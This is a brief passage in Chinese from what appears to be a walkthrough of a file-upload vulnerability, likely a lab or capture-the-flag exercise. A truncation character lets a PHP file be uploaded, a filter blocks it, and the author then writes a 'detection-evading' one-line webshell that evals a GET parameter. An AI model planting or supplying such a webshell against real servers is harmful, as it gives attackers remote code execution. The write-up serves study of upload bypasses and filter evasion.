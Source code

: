 其实这里多了一个看不到的截断符。重新发起请求。   
![Alt text](image-63.png)   
上传成功，以 `post_a.php` 的形式保存到了服务器。访问该文件。   
![Alt text](image-64.png)   
被拦截。应该是一句话木马的特征比较明显，尝试编写免杀的一句话木马。   
```php
 <?php
    $name = $_GET[1];
    $name = substr($name,0);
    eval("echo 12;". $name."echo 5;")
 ?>
```   
重新上传。   